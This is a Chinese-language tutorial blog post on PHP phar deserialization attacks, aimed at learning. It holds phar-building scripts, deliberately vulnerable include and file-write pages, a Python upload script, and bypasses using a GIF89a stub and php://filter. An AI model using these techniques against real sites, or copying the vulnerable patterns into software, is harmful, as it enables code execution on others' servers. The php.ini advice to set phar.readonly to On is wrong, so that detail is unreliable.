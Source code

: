 ```yaml
---
title: 浅析phar反序列化
date: 2024-10-22 16:11:27
permalink: /pages/88a8e0/
author: 
  name: Cola
  link: https://the0n3.top
---
```

# 浅析phar反序列化

## 定义

官方解释：什么是 phar？PHAR（PHP Archive）文件实际上是一种打包格式，用于将多个 PHP 文件和资源打包成一个文件。phar 归档的最佳特征是可以将多个文件组合成一个文件。phar 归档可以像任何其他文件一样由 PHP 在命令行和 Web 服务器上执行。

可以这样认为，phar文件是一个移动U盘，php可以通过`phar://`协议直接访问和执行U盘中的文件，而不需要解压。

可以使用任何 fopen() 相关函数，opendir() 和 mkdir() 相关函数在 phar 归档内读取、更改、创建新文件或目录

<!-- more -->

## 结构

phar文件本质是一种压缩文件


### stub （phar文件头）

前面xxx内容不限，但必须以`__HALT_COMPILER();`结尾，否则phar扩展无法识别这个phar文件

因为前面的内容不限，在遇到限制文件格式时可以通过stub伪造文件类型上传

```php
xxx<?php xxx; __HALT_COMPILER();?>
```

### manifest （元数据）

在这部分会将序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。

### contents （压缩文件内容）

被压缩文件的内容，可以写入php代码，通过include()及phar协议进行文件包含或者phar协议具体到某个php文件直接执行

### signature （签名）

可选

## 利用

在`php.ini`修改配置，开启`phar.readonly`选项，取消前面的`;`注释

```plaintext
[Phar]
; http://php.net/phar.readonly
phar.readonly = On
```

利用前提

- 存在文件上传/文件读写
- 页面定义了类，且存在文件操作的函数

受影响函数列表[原文地址](https://paper.seebug.org/680/)

![1](https://the0n3.top/medias/stuphar/1.png)

本地简单尝试利用

phar.php生成phar文件

```php
<?php
highlight_file(__FILE__);
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = 'hello,phar';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "<?php phpinfo();?>"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

index.php通过phar协议实现文件包含

```php
<?php
highlight_file(__FILE__);
include$_GET['file'];
```

![3](https://the0n3.top/medias/stuphar/3.png)

文件操作触发的反序列化

通过写文件代替文件上传，使用file_get_contents()函数举例读取文件时触发`phar`反序列化

```php
<?php
highlight_file(__FILE__);
    class test{
    public $a;
    public function __destruct(){
        phpinfo();
    }
}
# 直接写文件代替文件上传
@file_put_contents($_POST['filename'],$_POST['content']);

$file = $_GET['file'];
@file_get_contents($file);
?>
```

生成phar文件

```php
<?php
highlight_file(__FILE__);
    class test {
        public $a;
    }
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new test();
    $o -> a='hacker';
    
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "aaa"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

题目使用file_put_contents()函数写入文件，直接复制`shell.phar`文件内容会失败

需要复制二进制内容，使用python读取、上传

```python
import requests

url = 'http://localhost/stuphar/'
data = {
    'filename':'a.phar',
    'content':open('shell.phar','rb').read(),
}
resp = requests.post(url,data=data)
print(resp.text)
```

上传后，使用phar协议读取phar文件，触发反序列化

![2](https://the0n3.top/medias/stuphar/2.png)

## 扩展名

php通过`stub`文件头识别phar文件，所以可以自由修改文件后缀名绕过

## 文件头绕过

`$phar->setStub("<?php __HALT_COMPILER(); ?>");`，这里`stub`的文件头存在操作空间，添加一些白名单文件头

```php
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
```

## 伪协议绕过

限制`phar://`协议开头时，通过其他协议绕回来

```php
include('php://filter/read=convert.base64-encode/resource=phar://phar.phar/test.txt');
```

参考：

- [浅析phar反序列化](https://baozongwi.xyz/2024/09/05/%E6%B5%85%E6%9E%90phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)
- [phar反序列化](https://blog.foreverwl.top/archives/pharfxlh#heading-2)
- [Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://blog.zsxsoft.com/post/38)
- [通过Phar文件进行的反序列化攻击](https://chenlvtang.top/2021/03/20/%E9%80%9A%E8%BF%87Phar%E6%96%87%E4%BB%B6%E8%BF%9B%E8%A1%8C%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB/)